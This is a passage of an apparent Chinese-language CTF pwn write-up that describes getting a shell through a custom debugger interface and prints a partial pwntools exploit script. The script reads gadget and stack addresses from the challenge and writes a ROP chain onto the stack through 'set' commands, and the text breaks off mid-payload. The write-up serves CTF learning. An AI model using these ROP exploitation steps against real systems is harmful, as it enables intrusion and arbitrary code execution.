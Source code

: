 从设定上来说，这道题不需要选手编写利用脚本来解题，只需要通过 `stack` 指令查看栈布局，通过 `gift` 指令获取 **`pop rdi ; pop rsi ; pop rdx ; pop rax ; ret`** 等语句的地址，最后通过 `set` 指令完成栈上数据的布置就能 **getshell**：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *
from secret import mytoken

cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
context.log_level = "info"


def process_token():
    if hasattr(io, "rport"):
        ru(b"Please input your token: \n")
        sl(mytoken)
        # ia()


def cmd(data):
    ru(b"isadbg> ")
    sl(data)


process_token()

cmd(b"gift")
ru(b"Gifts:")
ru(b"0x")
popdisidxaxret = int(
    ru(b"-> pop rdi ; pop rsi ; pop rdx ; pop rax ; ret", drop=True), 16
)
ru(b"0x")
syscall_ret = int(ru(b"-> syscall ; ret", drop=True), 16)
lg("gadgets", popdisidxaxret)

cmd(b"stack 0x10")
ru(b"0 | 0x")
stack_addr = int(ru(b"| 0x", drop=True), 16)
lg("stack_addr", stack_addr)


def send_payload(base, payload):
    for i in range(len(payload)):
        cmd(b"set " + hex((i * 8) + base).encode() + b" " + hex(payload[i]).encode())


send_payload(
    stack_addr + 0x68,
    [
        popdisidxaxret,
        stack_addr,
        0,
        0,
```